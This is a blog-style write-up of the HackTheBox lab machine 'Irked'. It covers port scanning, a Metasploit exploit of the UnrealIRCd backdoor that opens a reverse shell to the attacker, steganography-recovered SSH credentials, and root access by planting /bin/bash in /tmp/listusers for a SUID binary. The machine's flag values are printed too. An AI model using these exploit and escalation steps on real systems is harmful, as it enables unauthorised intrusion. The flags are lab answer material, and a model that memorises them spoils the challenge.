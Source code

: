 ```yaml
---
layout: post
title: Hackthebox Irked Writeup
categories: HackTheBox
---
```


<img src="/public/images/2019-04-27/irked_badge.png"><br>
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
This is a write-up of machine "Irked" on that website.

## Solution
### 1. Initial Enumeration
Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.117 -sV -sC
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-29 23:55 EET
Nmap scan report for 10.10.10.117
Host is up (0.037s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          38929/tcp  status
|_  100024  1          55964/udp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
38929/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.62 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u http://10.10.10.117/

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.117/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Timeout      : 10s
=====================================================
2019/04/14 18:02:39 Starting gobuster
=====================================================
/manual (Status: 301)
/server-status (Status: 403)
=====================================================
2019/04/14 18:15:34 Finished
=====================================================
{% endhighlight %}

### 2. Getting User
We can find a vulnerability of "UnrealIRC" on Exploit database.
{% highlight shell %}
root@kali:~# searchsploit unrealirc
--------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                         |  Path
                                                                                       | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------- ----------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                           | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                         | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                              | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

To execute the exploit, launch metasploit console.
{% highlight shell %}
msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhost 10.10.10.117
rhost => 10.10.10.117
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rport 6697
rport => 6697
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP double handler on 10.10.14.23:4444 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Uccg9OJybaPvTmSP;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Uccg9OJybaPvTmSP\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.23:4444 -> 10.10.10.117:51673) at 2019-04-14 17:49:40 +0300

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
{% endhighlight %}

In directory "/home/djmardov/Documents", we can find user.txt and interesting file ".backup".<br>
Since we're not use djmardov, we don't have a permission to read user.txt
{% highlight shell %}
pwd
/home/djmardov/Documents
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3 04:40 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
{% endhighlight %}

Sounds the content of .backup is password for "steganography"
{% highlight shell %}
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
{% endhighlight %}

On the top page of port 80, we can find a image file "irked.jpg"
![placeholder](https://inar1.github.io/public/images/2019-04-27/2019-04-14-18-42-16.png)

We can use <a href=''>this website</a> to decode the data of irked.jpg.<br>
The data achieved is "Kab6h+m+bbp2J:HG".<br>
{% highlight shell %}
djmardov:Kab6h+m+bbp2J:HG
{% endhighlight %}

We can take advantage of the credential above for ssh connection.
{% highlight shell %}
root@kali:~# ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password: 

~~~

Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ 
{% endhighlight %}

unlike other boxes, user.txt in in a directory "Documents".
{% highlight shell %}
djmardov@irked:~$ cat Documents/user.txt
4a66a78b12dc0e661a59d3f5c0267a8e
{% endhighlight %}

### 3. Getting Root
By enumeration, we can find some binary files which have SUID.
{% highlight shell %}
djmardov@irked:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
{% endhighlight %}

We can see an unordinary binary file "viewuser".
{% highlight shell %}
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-11 15:02 (:0)
djmardov pts/0        2019-04-14 11:05 (10.10.14.23)
sh: 1: /tmp/listusers: not found
{% endhighlight %}

Sounds like we need an input for "viewuser" and shell tries to execute it.<br>
Then put a command to "/tmp/listusers". We can confirm it is executed.
{% highlight shell %}
djmardov@irked:~$ echo /bin/bash > /tmp/listusers
djmardov@irked:~$ chmod 777 /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-23 17:05 (:0)
djmardov pts/0        2019-04-27 15:35 (10.10.14.23)
root@irked:~#
{% endhighlight %}

root.txt is in a directory "/root/".
{% highlight shell %}
root@irked:~# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
{% endhighlight %}

